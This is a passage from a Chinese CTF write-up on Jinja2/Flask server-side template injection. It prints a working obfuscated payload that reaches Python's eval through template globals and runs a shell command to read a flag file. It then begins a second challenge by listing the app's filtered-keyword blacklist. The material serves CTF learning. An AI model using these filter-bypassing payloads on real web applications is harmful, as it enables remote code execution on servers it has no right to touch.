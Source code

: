 ```
{% for f,v in whoami.__init__.__globals__.items() %}    # globals
    {% if f == bul %} 
        {% for a,b in v.items() %}    # builtins
            {% if a == ev %}    # eval
                {{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}


```

所以最终的 payload 为：

```
{% set zero = (({ }|select|string|list).pop(38)|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs|int %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set seven = (zero-one-one-five)|abs %}{% set xhx = (({ }|select|string|list).pop(24)|string) %}{% set space = (({ }|select|string|list).pop(10)|string) %}{% set point = ((app.__doc__|string|list).pop(26)|string) %}{% set yin = ((app.__doc__|string|list).pop(195)|string) %}{% set left = ((app.__doc__|string|list).pop(189)|string) %}{% set right = ((app.__doc__|string|list).pop(200)|string) %}{% set c = dict(c=aa)|reverse|first %}{% set bfh=self|string|urlencode|first %}{% set bfhc=bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set os = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx*2~but~xhx*2 %}{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in whoami.__init__.__globals__.items() %}{% if f == bul %}{% for a,b in v.items() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174702-287d6fde-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174702-287d6fde-bd3e-1.png)

如上图所示，成功执行命令并得到了 flag。

### [2021 MAR & DASCTF]baby_flask

当时这道题没做出来，这里我们在本地使用 vulnhub 中的 flask 搭建环境进行复现：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174703-28a5378a-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174703-28a5378a-bd3e-1.png)

在 `/getname?name=` 处存在 SSTI。

F12 查看源代码发现提示过滤了一下字符：

```
blacklist</br>   
'.','[','\'','"','\\','+',':','_',</br>   
'chr','pop','class','base','mro','init','globals','get',</br>   
'eval','exec','os','popen','open','read',</br>   
'select','url_for','get_flashed_messages','config','request',</br>   
'count','length','０','１','２','３','４','５','６','７','８','９','0','1','2','3','4','5','6','7','8','9'</br>


```
